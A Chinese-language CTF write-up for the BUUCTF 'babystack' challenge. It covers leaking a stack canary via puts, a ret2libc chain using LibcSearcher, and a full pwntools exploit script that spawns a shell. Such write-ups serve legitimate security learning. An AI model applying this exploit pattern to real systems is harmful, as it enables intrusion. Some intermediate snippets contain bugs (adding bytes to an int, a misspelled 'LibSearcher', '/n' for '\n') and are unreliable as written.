 ### Puts 泄露 Canary

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dd237888c538a9b5c2dc7a.png)

先 run 一下

![](https://pic1.imgdb.cn/item/67dd23f988c538a9b5c2dcb6.png)

主要功能点是 1 和 2，其 1 存在栈溢出漏洞

![](https://pic1.imgdb.cn/item/67dd243088c538a9b5c2dcc0.png)

由于存在 canary，我们首先要想办法泄露出它的值来绕过 canary 保护

canary 最后一个字节是 '\x00'，又因为是小端存储，所以在内存中位置是在开头的

```c
内存地址低 -> 高
00 CC BB AA 78 56 34 12
```

想用 put 函数泄露 canary，但 puts 函数在输出的时候是遇到 '\x00' 会结束，所以写入 a 的时候用 '/n' 覆盖掉

正好 sendline 之后会发送一个 '/n' 会覆盖掉 '\x00'

在 pwntools 中，sendline 和 send 都是发送数据，但是 sendline 是发送一行数据，换句话说就是 sendline 会在发送的数据末尾加一个回车

```python
r.sendlineafter('>>', 1)

payload = b'a' + (0x90 - 0x8)

r.sendline(payload)
r.sendlineafter('>>', 2)
r.recvuntil('a\n')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

因为是 64 位的，后续再找下 `pop rdi`

![](https://pic1.imgdb.cn/item/67dd3db988c538a9b5c2e553.png)

拿到 canary 后再泄露 libc

```python
payload += canary + b'a' * 0x8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

r.sendafter('>>', 1)
r.sendline(payload)
r.sendafter('>>', 3)
r.recv()

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))

libc = LibSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc.dump('system') + libc_base
bin_addr = libc.dump('str_bin_sh') + libc_base
```

完整 payload

```python
from pwn import *
from LibcSearcher import *

# r = remote('node5.buuoj.cn',29236)
r = process('./babystack')

pop_rdi = 0x0000000000400a93
elf = ELF('./babystack')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = 0x400908

payload = b'a' * (0x90 - 0x8)

r.sendlineafter('>>','1')
r.sendline(payload)
r.sendlineafter('>>','2')
r.recvuntil('a\n')

canary = u64(r.recv(7).rjust(8,b'\x00'))

payload += p64(canary)+ b'b' * 0x8
payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

r.sendlineafter('>>','1')
r.sendline(payload)
r.sendlineafter('>>','3')
r.recv()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
bin_addr = libc.dump('str_bin_sh') + libc_base

payload = b'a'*(0x90-0x8) + p64(canary) + b'b'*0x8
payload += p64(pop_rdi) + p64(bin_addr) + p64(system_addr)

r.sendlineafter('>>','1')
r.sendline(payload)
r.sendlineafter('>>','3')
r.interactive()
```

